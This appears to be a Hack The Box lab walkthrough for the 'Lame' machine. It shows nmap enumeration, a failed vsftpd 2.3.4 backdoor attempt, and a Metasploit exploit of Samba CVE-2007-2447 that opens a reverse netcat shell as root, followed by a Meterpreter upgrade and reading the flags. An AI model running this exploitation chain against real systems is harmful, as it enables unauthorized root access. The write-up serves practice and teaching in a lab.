

Welcome to "Lame", the first box on HTB. Let's walk through our first hacking puzzle task by task.

We can find the open ports using the `nmap` tool. By default it will scan the top 1000 TCP ports. To run it, we need to be connected by VPN to the HTB labs network, and we need the IP address of the machine which is `10.10.10.3`.

```
$ nmap 10.10.10.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 16:25 CEST
Nmap scan report for 10.10.10.3
Host is up (0.074s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 10.09 second
```

Okay, `nmap` shows us four open ports, the first of which is FTP (File Transfer Protocol), let's scan for the service version:

> man nmap
>
> **SERVICE/VERSION DETECTION:**
>
> `-sV`: Probe open ports to determine service/version info

```
$ nmap -p 21 -sV 10.10.10.3
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 16:31 CEST
Nmap scan report for 10.10.10.3
Host is up (0.077s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
```

It shows that the running FTP service is `vsftpd` (very secury ftp daemon) version `2.3.4` There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it.

Let's fire up Metasploit, our easy-mode toolbox to identify vulnerabilities and exploit them.

```
$ msfconsole

...

msf6 >
```

We can search through Metasploit's library of exploits, looking for anything related to VSFTPd version 2.3.4:

```
msf6> search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Running that exploit is as simple as setting the IP address of our target and firing it up:

```
msf6 > use 1
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, sock
                                       s5, socks5h, http
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3

RHOSTS => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

The exploit did not result in a reverse shell connection (`cmd/unix/interact`). It seems the backdoor does not work here, let's move on.

Going back to our first `nmap` result, we have ports 139 and 445 listening. These ports are used by the SMB (Server Message Block) protocol and this protocol is implemented by the "Samba" daemon. We can identify the version using the same `-sV` argument and setting the ports:

```
$ nmap -p 139,445 -sV 10.10.10.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 17:33 CEST
Nmap scan report for 10.10.10.3
Host is up (0.020s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

`nmap` isn't able to get more specific than version `3.X - 4.X`. I needed to enable the `smb-os-discovery` script for `nmap` to narrow it down.

```
$ nmap -sV 10.10.10.3 -p 445 --script smb-os-discovery

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 17:56 CEST
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

Host script results:
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-07-17T11:57:18-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.72 seconds
```

If I search for `Samba 3.0` I find the NIST NVD website:



This CVE is known as `CVE-2007-2447`.

We will exploit the CVE with the Metasploit module:

```
$ msfconsole

...

msf6 > search 2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, sock
                                       s5, socks5h, http
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.64.8     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => 10.10.14.2

msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.3:49056) at 2025-07-17 18:02:37 +0200

id
uid=0(root) gid=0(root)
```

We have ourselves a shell as `root`!

To collect our flags, let's first upgrade our shell

```
^Z
Background session 1? [y/N]  y
msf6 exploit(multi/samba/usermap_script) > sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.11:4433
[*] Sending stage (1017704 bytes) to 10.10.10.3
[*] Meterpreter session 2 opened (10.10.14.11:4433 -> 10.10.10.3:45457) at 2025-07-18 17:28:04 +0200
[*] Command stager progress: 100.00% (773/773 bytes)

msf6 exploit(multi/samba/usermap_script) > sessions -i 2

meterpreter >
```

Now for the flags:

```
meterpreter > cat /root/root.txt
3188d1b0e5d478656c922f35a3ac****

meterpreter > ls /home
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2010-03-17 15:08:02 +0100  ftp
040755/rwxr-xr-x  4096  dir   2025-07-18 12:25:02 +0200  makis
040755/rwxr-xr-x  4096  dir   2010-04-16 08:16:02 +0200  service
040755/rwxr-xr-x  4096  dir   2010-05-07 20:38:06 +0200  user

meterpreter > ls /home/makis
Listing: /home/makis
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  1107  fil   2017-03-14 23:32:31 +0100  .bash_history
100644/rw-r--r--  220   fil   2017-03-14 21:07:57 +0100  .bash_logout
100644/rw-r--r--  2928  fil   2017-03-14 21:07:57 +0100  .bashrc
040700/rwx------  4096  dir   2025-07-18 12:25:02 +0200  .gconf
040700/rwx------  4096  dir   2025-07-18 12:25:32 +0200  .gconfd
100644/rw-r--r--  586   fil   2017-03-14 21:07:57 +0100  .profile
100644/rw-r--r--  0     fil   2017-03-14 21:10:58 +0100  .sudo_as_admin_successful
100644/rw-r--r--  33    fil   2025-07-17 16:25:45 +0200  user.txt

meterpreter > cat /home/makis/user.txt
cf789de0e87ddab8a1108481f104****
```

Nice job!
